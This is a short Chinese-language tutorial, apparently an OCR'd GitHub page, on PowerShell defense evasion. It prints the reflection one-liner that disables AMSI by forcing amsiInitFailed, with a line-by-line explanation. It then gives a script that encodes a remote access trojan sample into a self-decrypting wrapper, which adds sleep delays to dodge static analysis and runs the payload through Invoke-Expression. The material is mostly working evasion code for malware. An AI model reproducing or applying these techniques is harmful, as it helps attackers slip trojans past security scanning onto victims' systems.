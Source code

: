 

---

#### 通过命名空间接口关闭AMSI

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
```

1. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`

   - 获取`System.Management.Automation`命名空间下的`AmsiUtils`类的类型信息。

     `AmsiUtils`是处理AMSI相关操作的内部类。

2. `GetField('amsiInitFailed','NonPublic,Static')`

   - 获取`AmsiUtils`类中名为`amsiInitFailed`的字段。

     这个字段是一个私有(NonPublic) 静态(Static) 字段，用于指示AMSI是否初始化失败。

3. `SetValue($null,$true)`

   - 将`amsiInitFailed`字段的值设置为`$true`，意味着伪造AMSI初始化失败的状态。

     这样做的效果是使AMSI停止工作，因为系统认为AMSI无法正确初始化。

---

### 时间延迟执行

在脚本中加入延迟执行的代码，使恶意行为不会立即发生，这样在静态分析时看起来不会有恶意行为'

例如结合前面自定义加密的方案以及 `Start-Sleep -Seconds 100  ` 来做时延

```powershell
$originalScript = Get-Content -Path "../../RATSample.ps1" -Raw
Write-Host $originalScript
$encryptedScript = ($originalScript.ToCharArray() | ForEach-Object {
    $asciiValue = [int][char]$_ + 1
    $asciiValue.ToString("D3")
}) -join ''
$decryptionScript = @"
`$encryptedScript = '$encryptedScript'
Start-Sleep -Seconds 100  
`$decryptedScript = ''
for (`$i = 0; `$i -lt `$encryptedScript.Length; `$i+=3) {
    `$asciiValue = [int]::Parse(`$encryptedScript.Substring(`$i, 3)) - 1
    `$decryptedScript += [char]`$asciiValue
}
Start-Sleep -Seconds 100  
Invoke-Expression `$decryptedScript
"@

$decryptionScript | Out-File -FilePath "EncryptedRAT.ps1"
```
